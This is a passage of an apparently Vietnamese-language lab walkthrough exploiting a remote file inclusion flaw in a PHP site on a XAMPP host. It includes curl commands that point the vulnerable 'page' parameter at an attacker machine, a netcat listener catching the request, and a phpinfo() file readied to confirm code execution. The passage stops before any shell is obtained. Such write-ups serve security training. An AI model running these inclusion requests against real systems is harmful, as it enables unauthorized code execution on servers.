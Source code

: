 ```
---- Entering directory: http://192.168.68.53:8080/dashboard/de/ ----
+ http://192.168.68.53:8080/dashboard/de/aux (CODE:403|SIZE:1045)        
^C> Testing: http://192.168.68.53:8080/dashboard/de/cgi-win
```

Tập trung vào trang web chạy từ thư mục `/site`.

## Exploitation

### Remote File Inclusion Vulnerability

Điều hướng đến http://192.168.68.53:8080/site/ sẽ chuyển hướng đến http://192.168.68.53:8080/site/index.php?page=main.php. Một thử nghiệm đơn giản về tham số `page` cho thấy có lỗ hổng file inclusion tiềm ẩn.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=hola                            
<br />
<b>Warning</b>:  include(hola): failed to open stream: No such file or directory in <b>C:\xampp\htdocs\site\index.php</b> on line <b>4</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'hola' for inclusion (include_path='C:\xampp\php\PEAR') in <b>C:\xampp\htdocs\site\index.php</b> on line <b>4</b><br />
```

Xác định xem lỗ hổng có cho phép đưa remote file vào không. Hướng tham số dễ bị tấn công đến machine tấn công đang chạy trình lắng nghe netcat trên cổng 80.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/hola
```

Nhận được kết nối trên trình lắng nghe, xác nhận lỗ hổng remote file inclusion.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvvp 80                                                                                 
listening on [any] 80 ...
192.168.68.53: inverse host lookup failed: Host name lookup failure
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.53] 49709
GET /hola HTTP/1.0
Host: 192.168.49.68
Connection: close
```

Để xác nhận rằng có thể thực thi code từ xa, tạo một tệp `info.php` trên máy tấn công và serve nó từ máy chủ web Python trên cổng 80.

```
┌──(kali㉿kali)-[~]
└─$ cat info.php
<?php
phpinfo();
?>
```
